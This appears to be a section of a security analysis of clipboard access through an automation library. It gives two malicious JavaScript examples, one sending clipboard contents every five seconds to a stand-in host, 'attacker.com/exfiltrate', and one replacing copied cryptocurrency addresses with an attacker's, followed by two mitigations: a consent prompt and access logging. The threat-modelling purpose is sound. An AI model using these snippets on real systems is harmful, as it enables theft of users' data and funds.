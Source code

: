 #### 4.5 Code Examples and Scenarios

**Scenario 1: Data Theft (Periodic Reading)**

```javascript
// Malicious code snippet
setInterval(() => {
  const clipboardContent = robot.getCopyText();
  // Send clipboardContent to attacker's server (e.g., using fetch)
  fetch('https://attacker.com/exfiltrate', {
    method: 'POST',
    body: clipboardContent,
  });
}, 5000); // Every 5 seconds
```

**Scenario 2: Cryptocurrency Address Replacement**

```javascript
// Malicious code snippet
setInterval(() => {
  const clipboardContent = robot.getCopyText();
  // Check if clipboard content looks like a cryptocurrency address (basic regex)
  if (/^[13][a-km-zA-HJ-NP-Z1-9]{25,34}$/.test(clipboardContent)) {
    robot.setCopyText('attacker_crypto_address'); // Replace with attacker's address
  }
}, 1000); // Every second
```

**Scenario 3: Mitigation - Clipboard Justification (Conceptual)**

```javascript
// Conceptual code - requires platform-specific implementation
function readClipboardWithJustification() {
  const userConsent = showClipboardAccessPrompt(
    "This application needs to read your clipboard to extract the URL you copied.  Do you allow this?"
  );

  if (userConsent) {
    const clipboardContent = robot.getCopyText();
    // ... process clipboardContent (with sanitization) ...
  } else {
    // Handle denial of access
  }
}
```

**Scenario 4: Mitigation - Clipboard Auditing (Conceptual)**

```javascript
function auditedGetCopyText() {
  const clipboardContent = robot.getCopyText();
  logClipboardAccess("read", clipboardContent, "URL extraction module"); // Log the access
  return clipboardContent;
}

function auditedSetCopyText(text) {
  robot.setCopyText(text);
  logClipboardAccess("write", text, "Paste helper function"); // Log the access
}
```
